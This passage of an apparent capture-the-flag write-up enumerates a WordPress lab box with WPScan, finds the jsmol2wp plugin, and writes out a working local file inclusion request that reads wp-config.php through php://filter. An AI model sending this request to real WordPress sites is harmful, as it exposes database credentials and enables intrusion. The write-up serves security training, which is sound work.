 ```bash
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.2 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://www.smol.thm/wp-content/themes/twentytwentythree/style.css, Match: 'Version: 1.2'

[+] Enumerating All Plugins (via Passive Methods)
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

[+] jsmol2wp
 | Location: http://www.smol.thm/wp-content/plugins/jsmol2wp/
 | Latest Version: 1.07 (up to date)
 | Last Updated: 2018-03-09T10:28:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.07 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://www.smol.thm/wp-content/plugins/jsmol2wp/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://www.smol.thm/wp-content/plugins/jsmol2wp/readme.txt

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:03 <=====================> (137 / 137) 100.00% Time: 00:00:03

[i] No Config Backups Found.

```

It found some additional directories and files:
```
http://www.smol.thm/xmlrpc.php
http://www.smol.thm/wp-cron.php
http://www.smol.thm/wp-content/themes/twentytwentythree/style.css
http://www.smol.thm/wp-content/plugins/jsmol2wp/readme.txt
```

Also we see WordPress version, which is 6.7.1
A thing to know about WP is that it constantly has some vulnerabilities about plugins, themes of file uploads, so let's start by researching the only plugin found `jsmol2wp`.

We can find a couple of CVEs: CVE-2018-20463-CVE-2018-20462 -> Local File Inclusion vulnerability + SSRF + XSS.
We can get the WP config file via LFI:
```http
GET http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php
```
